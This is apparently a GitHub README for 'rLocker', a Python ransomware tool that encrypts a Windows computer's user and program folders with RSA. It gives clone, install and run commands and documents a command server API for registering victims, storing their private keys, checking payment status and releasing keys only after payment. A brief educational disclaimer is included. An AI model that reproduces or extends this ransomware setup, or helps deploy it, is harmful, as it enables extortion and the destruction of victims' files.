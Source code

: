 
# rLocker (RSA Locker)

rLocker (RSA Locker) is a ransomware tool built in python. It uses the RSA encryption standard to encrypt a computers `C:\Users` files and `C:\Program Files` and `C:\Program Files (x86)`. Your key pair is stored on a [mongoDB](https://www.mongodb.com) database. rLocker communicates with a mainserver API to allow for restricted database access.

rLocker was made with the purpose to find out how easy writing malware can be, and how simple ransomware can devastate a system. rLocker was made over the course of 2 days, so there is likely a lot of bugs. But it serves its purpose to demonstrate the power of cryptography.

rLocker is the encryptor, with dLocker being the decryptor. A file called uuid.rlocker will be created when you have used rlocker, do not delete this file! This file
contains your UUID and it can be difficult to decrupt the files without it!


## Running the code

To use the tools, first clone the repository

```bash
  git clone https://github.com/Ironislife98/rLocker.git
```

Then install the dependencies

```bash
  pip install -r requirements.txt
```

Then run the encryptor

```bash
  python rlocker.python
```

#### Don't do anything without explicit permission



## API Reference

#### Add New Victim

```http
  GET /add/${uuid}/${ip}/${privatekey}/${publickey}
```

| Parameter | Type     | Description                |
| :-------- | :------- | :------------------------- |
| `uuid` | `string` | **Required**. Your unique user id |
| `ip`   | `string  | **Required**. Your ip address |
| `privatekey`   | `string  | **Required**. Your RSA private key |
| `publickey`   | `string  | **Required**. Your RSA public key |


#### Get Key

```http
  GET /getkey/${uuid}
```

| Parameter | Type     | Description                       |
| :-------- | :------- | :-------------------------------- |
| `uuid`      | `string` | **Required**. Unique user id of victim |

Returns key if victim has paid, else returns *Payment not complete!*

#### Get new UUID for victim
```http
  GET /newid
```

Returns a UUID for victim.

#### Paid Status

```http
  GET /paidstatus/${uuid}
```

| Parameter | Type     | Description                       |
| :-------- | :------- | :-------------------------------- |
| `uuid`      | `string` | **Required**. Unique user id of victim |

Returns status of victims payment, *True* or *False*

## Demo

![rLocker Demo](https://github.com/Ironislife98/rLocker/blob/b18a457e20b7398f76e07198fbc6b4b557a78e37/Images/demo.png?raw=true "rLocker Demo")


## Authors

- [@Ironislife98](https://www.github.com/Ironislife98)

